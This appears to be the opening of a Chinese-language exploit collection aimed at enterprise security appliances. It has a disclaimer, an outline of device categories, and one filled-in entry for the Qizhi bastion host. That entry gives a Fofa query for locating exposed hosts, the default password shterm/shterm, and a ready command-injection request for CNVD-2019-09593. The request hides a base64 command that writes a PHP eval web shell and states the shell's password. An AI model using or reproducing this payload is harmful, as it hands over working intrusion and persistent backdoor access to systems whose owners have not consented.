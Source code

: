 # SecDevice - Exploits

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

# 大纲

* **身份与访问控制**
    * [堡垒机](#堡垒机)
    * [IMC](#img)

* **网络检测与响应**
    * [蜜罐](#蜜罐)
    * [IDS](#ids)
    * [防火墙](#防火墙)
    * [WAF](#waf)
    * [网关](#网关)
    * [负载均衡](#负载均衡)
    * [VPN](#vpn)

* **终端响应与检测**
    * [杀软](#杀软)
    * [EDR](#edr)
    * [数据防泄漏系统](#数据防泄漏系统)

---

# 身份与访问控制

## 堡垒机

**齐治堡垒机**

> Fofa: app="齐治科技-堡垒机"

- **默认口令**
    - shterm/shterm

- **齐治堡垒机 ShtermClient-2.1.1 命令执行漏洞**
    - [齐治堡垒机ShtermClient-2.1.1命令执行漏洞（CNVD-2019-09593）分析](https://www.cnblogs.com/StudyCat/p/11201725.html)
        ```
        http://10.20.10.11/listener/cluster_manage.php
        https://10.20.10.10/ha_request.php?action=install&ipaddr=10.20.10.11&node_id=1${IFS}|`echo${IFS}" ZWNobyAnPD9waHAgQGV2YWwoJF9SRVFVRVNUWzEwMDg2XSk7Pz4nPj4vdmFyL3d3dy9zaHRlcm0vcmVzb3VyY2VzL3FyY29kZS9sYmo3Ny5waHAK"|base64${IFS}- d|bash`|${IFS}|echo${IFS}
        /var/www/shterm/resources/qrcode/lbj77.php  密码10086
        ```
